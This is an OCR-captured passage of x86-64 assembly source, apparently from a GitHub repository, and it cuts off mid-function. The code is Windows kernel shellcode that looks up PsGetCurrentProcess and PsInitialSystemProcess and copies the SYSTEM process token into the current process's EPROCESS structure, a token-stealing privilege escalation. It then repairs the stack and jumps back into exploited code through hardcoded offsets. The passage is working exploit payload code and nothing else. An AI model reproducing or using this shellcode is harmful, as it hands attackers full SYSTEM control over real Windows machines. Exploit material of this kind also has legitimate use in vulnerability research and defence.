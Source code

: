 ```Assembly
	db "PsGetCurrentProcess", 0
skip_PsGetCurrentProcess:
	mov rdx, [rsp]
	mov rcx, [rbp - 08h]
	call kernel_shellcode_find_module_func
	add rsp, 08h
	mov [rbp - 10h], rax

	; Get address of PsInitialSystemProcess
	call PsInitialSystemProcess
	db "PsInitialSystemProcess", 0
PsInitialSystemProcess:
	mov rdx, [rsp]
	mov rcx, [rbp - 08h]
	call kernel_shellcode_find_module_func
	add rsp, 08h
	mov [rbp - 18h], rax

	; Call PsGetCurrentProcess
	mov rcx, [rbp - 10h]
	xor eax, eax
	call rcx

	; Get System PEPROCESS pointer
	mov rcx, [rbp - 18h]
	; Get System PEPROCESS
	mov rcx, [rcx]
	; Get System EPROCESS token
	mov rcx, [rcx + 4b8h]
	; Overload current EPROCESS token
	mov [rax + 4b8h], rcx

	; set status code
	xor esi, esi

	; null out rax, just in case
	xor eax, eax

	; restore old rbp
	leave

	; calculate address of return address
	mov rcx, [rsp + 40h]
	sub rcx, 882f0h
	lea rcx, [rcx + 85717h]
	; skip previous stack frame
	lea rsp, [rsp + 30h]

	; jump to clean-up
	jmp rcx
kernel_shellcode ENDP

; void *kernel_shellcode_find_module_func(void *module, char *func_name)
kernel_shellcode_find_module_func PROC
	push rbp
	mov rbp, rsp
	sub rsp, 20h

	mov [rbp - 08h], rcx                ; store module
	mov [rbp - 10h], rdx                ; store func_name

	mov rax, rcx
	xor rcx, rcx
```